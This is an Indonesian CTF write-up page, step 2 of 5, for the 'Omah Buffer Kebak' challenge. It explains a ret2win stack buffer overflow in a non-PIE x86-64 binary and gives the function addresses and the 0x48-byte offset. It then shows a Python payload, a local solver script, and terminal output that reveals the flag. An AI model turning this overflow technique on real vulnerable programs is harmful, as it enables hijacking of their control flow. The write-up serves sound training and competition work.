

# Omah Buffer Kebak — Cara mendapatkan flag

[← Overview](64-omah-buffer-kebak.md) · [Index](index.md)

> **Langkah 2/5.** Buffer overflow di `layanan_tamu`: padding `0x48` byte,
> lalu alamat `obong` (`0x40125f`). Diuji dengan binary asli.
>
> **Berikutnya:** [Flag](64-omah-buffer-kebak-03-flag.md)

## 1. Binary

Attachment `OmahBufferKebak.zip` berisi:

```text
peserta/omah
ELF 64-bit LSB executable, x86-64, non-PIE, not stripped
```

```bash
file omah
nm -C omah | grep -E ' T | t ' | head
```

Fungsi penting:

| Alamat | Fungsi | Peran |
|---:|---|---|
| `0x401361` | `main` | memanggil `layanan_tamu` |
| `0x401317` | `layanan_tamu` | membaca nama ke buffer stack |
| `0x40125f` | `obong` | membuka `flag.txt` dan mencetak `FLAG: %s` |

## 2. Vulnerability

`layanan_tamu` membaca input nama ke buffer stack, lalu `main`/fungsi lain
mengembalikan alamat. Offset dari buffer ke return address adalah **0x48
byte**. Karena binary **non-PIE**, alamat `obong` tetap `0x40125f`.

Payload:

```python
import struct
payload = b"A" * 0x48 + struct.pack("<Q", 0x40125f) + b"\n"
```

## 3. Exploit lokal (binary asli)

Solver ada di
[`assets/omah-buffer-kebak/solve_omah.py`](assets/omah-buffer-kebak/solve_omah.py):

```python
import struct, subprocess
from pathlib import Path

HERE = Path(__file__).resolve().parent
payload = b"A" * 0x48 + struct.pack("<Q", 0x40125F) + b"\n"
p = subprocess.run([str(HERE / "omah")], input=payload, capture_output=True)
print(p.stdout.decode(errors="replace"))
```

Jalankan dari folder challenge:

```bash
cd docs/assets/omah-buffer-kebak
python3 solve_omah.py
```

Output nyata (dengan `flag.txt` berisi flag challenge):

```text
=== LAYANAN TAMU (versi 1988) ===
silakan perkenalkan diri.
nama : Halo, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FLAG: NFX{OmahhKUuD0Ndoll_Uw0nggG}
```



*Output `solve_omah.py` dengan binary asli dan `flag.txt` challenge.*

## 4. Catatan remote

Service remote sudah tidak aktif setelah event. Reproduksi di atas memakai
**binary asli dari attachment** dan `flag.txt` yang berisi flag challenge,
jadi jalur ret2win-nya terbukti. Flag final juga diterima platform
(`CORRECT, BUT ALREADY SOLVED.`).

### Evidence langkah ini

- [`omah`](assets/omah-buffer-kebak/omah) — binary asli.
- [`solve_omah.py`](assets/omah-buffer-kebak/solve_omah.py) — exploit.
- [`10-local-exploit.txt`](assets/omah-buffer-kebak/10-local-exploit.txt) — output mentah.
- [`10-local-exploit.png`](assets/omah-buffer-kebak/10-local-exploit.png) — terminal evidence.
